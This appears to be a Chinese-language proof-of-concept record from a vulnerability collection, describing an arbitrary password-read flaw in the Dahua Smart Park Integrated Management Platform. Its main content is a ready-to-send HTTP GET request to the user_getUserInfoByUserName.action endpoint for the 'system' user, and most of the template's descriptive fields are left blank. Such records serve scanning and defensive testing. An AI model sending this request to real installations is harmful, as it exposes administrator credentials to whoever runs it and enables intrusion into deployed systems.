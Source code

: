 ﻿# 大华智慧园区综合管理平台 user_getUserInfoByUserName.action 任意密码读取漏洞

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：大华智慧园区综合管理平台 user_getUserInfoByUserName.action 任意密码读取漏洞.poc
